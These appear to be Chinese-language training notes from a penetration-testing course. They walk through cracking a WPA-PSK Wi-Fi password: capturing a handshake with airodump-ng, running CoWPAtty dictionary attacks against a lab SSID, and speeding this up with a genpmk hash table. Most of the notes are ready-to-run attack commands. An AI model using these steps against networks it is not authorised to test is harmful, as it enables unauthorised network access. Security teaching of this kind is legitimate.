 # WPA破解-创建Hash-table加速并用Cowpatty破解

## 1.Cowpatty 软件介绍

CoWPAtty是WPA-PSK的自动字典攻击工具，它运行在Linux上，该程序具有命令行界面，并使用字典进行密码攻击。

## 2.渗透流程

### 1.安装CoWPAtty

```
cowpatty
```

![image-20211209152646289](https://image.201068.xyz/assets/image-20211209152646289.png)

### 2.抓握手包

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 3.重新连接wifi

### 4.渗透WPA wifi

```
cowpatty -f /root/wifi/passwd.txt -r  wpa-1-01.cap -s cisco-1809
-f:字典文件
-r:数据包捕获文件
-s:网络SSID（如果SSID包含空格，则使用引号括起来）
```

![image-20211209152816034](https://image.201068.xyz/assets/image-20211209152816034.png)

### 5.使用大字典破解

```
cowpatty -f /root/wifi/pwd.txt -r  wpa-1-01.cap -s cisco-1809
```

![image-20211209152848877](https://image.201068.xyz/assets/image-20211209152848877.png)

## 3.hash-table加速

### 1.将密码字典生成hash-table

```
genpmk -f  pwd.txt -d ./pwdhash -s cisco-1809
```

![image-20211209153002704](https://image.201068.xyz/assets/image-20211209153002704.png)

生成hask-table速度比较慢，但是具有可传播性，大家如果跟我视频设置的是一样的wifi名称和一样的密码规则，可以直接使用而课程附件里生成好的hash-table直接破解

### 2.加速渗透

```
cowpatty -d /root/wifi/pwdhash -r  wpa-1-01.cap -s cisco-1809
```

![image-20211209153101178](https://image.201068.xyz/assets/image-20211209153101178.png)

## 4.课程小结

参考：课后笔记